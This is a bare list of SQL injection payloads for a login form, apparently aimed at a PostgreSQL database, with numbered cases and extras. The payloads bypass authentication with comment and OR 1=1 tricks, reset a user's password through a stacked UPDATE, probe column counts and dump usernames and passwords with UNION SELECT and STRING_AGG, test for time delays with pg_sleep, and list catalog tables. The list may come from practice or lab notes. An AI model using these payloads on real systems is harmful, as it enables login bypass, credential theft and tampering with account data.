CASE 1:
username : user1' --
password: anything

CASE 2:
username : user1'; UPDATE users SET password='newpassword' WHERE username='user1' --
password: anything

CASE 3:
username : ' OR '1'='1' --
password: anything

CASE 5:
username:
user1' UNION SELECT NULL--
user1' UNION SELECT NULL,NULL--
user1' UNION SELECT NULL,NULL,NULL--
user1' UNION SELECT username, password FROM users --


CASE 6:
username: ' UNION SELECT STRING_AGG(username, ', ') AS username
FROM users; --

EXTRAS: 
username : user1'; SELECT pg_sleep(5); --
password: anything

username : ' OR 1=1; SELECT \* FROM pg_catalog.pg_tables; --
password: anything